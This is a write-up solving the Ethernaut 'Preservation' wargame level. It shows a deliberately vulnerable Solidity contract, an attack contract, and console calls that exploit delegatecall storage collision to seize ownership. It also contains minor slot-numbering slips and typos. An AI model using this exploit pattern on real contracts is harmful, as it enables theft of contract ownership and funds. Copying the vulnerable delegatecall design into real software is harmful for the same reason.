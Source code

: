 ```yaml
---
description: delegatecall and storage collision
---
```


# 16 - Preservation

Ethernaut Level16: [Preservation](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

### Goal of this level

* claim ownership

### What you should know before

* `delegatecall`  \
  \-> see [here](https://www.youtube.com/watch?v=uawCDnxFJ-0), [here](https://www.youtube.com/watch?v=bqn-HzRclps), and [here](https://www.youtube.com/watch?v=oinniLm5gAM)
* Storage Collision\
  \-> see `here`

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

**`Preservation`** contract has 3 storage variables (`slot0`, `slot1`, and `slot2`).

But **`LibraryContract`** has only 1 storage variable (`slot0`).

So whatever you pass into when calling `setFirstTime()` function, the value you pass to parameter will be stored in `slot0` of **`Preservation`** contract.

So we will make `slot0` (**`timeZoneLibrary`**) to point our **`AttackPerservation`** contract.

</details>

User Remix IDE to deploy it!

#### 1) deploy AttackPreservation

```solidity
contract AttackPreservation {
    bytes32 public slot0;
    bytes32 public slot1;
    address public owner;

    function setTime(uint256) public {
        owner = tx.origin;
    }
}
```

`slot0` and `slot2` variables are declared as `bytes32` type just to avoid variable packing.\
(If you are unfamiliar with this concept, see [here](https://fravoll.github.io/solidity-patterns/tight\_variable\_packing.html))

When `setTime()` is called via delegatecall from a  contract, `tx.origin`  will be store in `slot3` of the caller contract.

#### 2) make timeZone1Library variable point AttackPreservation

```javascript
> await contract.setFirstTime("0xcdB7a3B1C534A1B410c33c857492D40E8EF865e2")
```

timeZone1Library initially points to LibraryContract.

But by calling `setFirstTime()`, `setTime()` function in **`LibraryContract`** will run in the context of **`Perservation`** contract.\
(Thus updates slot0 of **`Preservation`** contract)

#### 3) Change owner&#x20;

```javascript
> await contract.setFirstTime("0xcdB7a3B1C534A1B410c33c857492D40E8EF865e2")
```

You can pass in any value into the parameter.\
(Since we are not using it anyway).

`setTime()` function in **`AttackPreservation`** contract will run in the context of **`Preservation`**, so `slot3` varaible of **`Preservation`** contract will be updated to be `tx.origin` (which is your wallet address)

Done! 😎

## Key Takeaway

* When using `delegatecall`, make sure that the contract you're calling has **the same storage layout** as the caller contract.

